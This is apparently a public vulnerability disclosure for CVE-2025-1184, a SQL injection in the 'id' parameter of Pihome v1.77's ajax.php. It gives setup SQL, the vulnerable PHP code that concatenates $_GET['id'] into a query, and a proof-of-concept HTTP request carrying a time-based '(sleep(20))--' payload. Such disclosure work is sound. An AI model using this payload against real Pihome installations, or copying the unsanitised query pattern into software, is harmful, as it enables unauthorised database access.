

# SQL Injection in Pihome v1.77 in ajax.php

### Title: SQL Injection in Pihome v1.77 in ajax.php
### Affected Component: /ajax.php
### CWE: CWE-89 (SQL Injection)
### CVE-2025-1184


### **Edits**

#### Update: 2025-02-06 16:25:00 (CET)
Edit reason: added steps to setup and exploit

### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/pihome/)


### Setup for getting the PoC to Work
Setup the project and then add a mqtt record. The prerequisite is that there is a record set up in the database. 

#### MySQL queries


```mysql
INSERT INTO `mqtt` 
SET 
   `name` = 'Main MQTT Server', 
   `ip` = '192.168.1.100', 
   `port` = 1883, 
   `topic` = 'home/sensors', 
   `username` = 'mqtt_user', 
   `password` = 'secure_password', 
   `enabled` = 1, 
   `type` = 1;
```


### Impact:
The web application is vulnerable to SQL Injection attacks within ajax modal functionality. Attackers can exploit this vulnerability by injecting malicious input into the "id" parameter,
which is used to edit values in the `mqtt` table. Make sure a record exists here.

The code below shows (ajax.php line 473) that the user input is put into the query without sanitation. This is a high risk vulnerability.

```php
function GetModal_MQTTAddEdit($conn)
{
	//foreach($_GET as $variable => $value) echo $variable . "&nbsp;=&nbsp;" . $value . "<br />\r\n";

    $IsAdd=true;
    if(isset($_GET['id'])) {
        $query = "SELECT * FROM `mqtt` WHERE `id`=" . $_GET['id'] . ";";
        $results = $conn->query($query);
        $row = mysqli_fetch_assoc($results);
        $IsAdd=false;
    }
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the SQL injection vulnerability, attackers craft a payload containing malicious input and inject it into the "id" parameter. For example, 
submitting the payload `(sleep(20))--` triggers 20 seconds delay in the request. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /ajax.php?Ajax=GetModal_MQTTEdit&id=(sleep(20))-- HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=087f1b0f23735d827df7afbc7ed3f8b1; PiHomeLanguage=en
Connection: keep-alive
```

### Proof with Screenshot:



## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)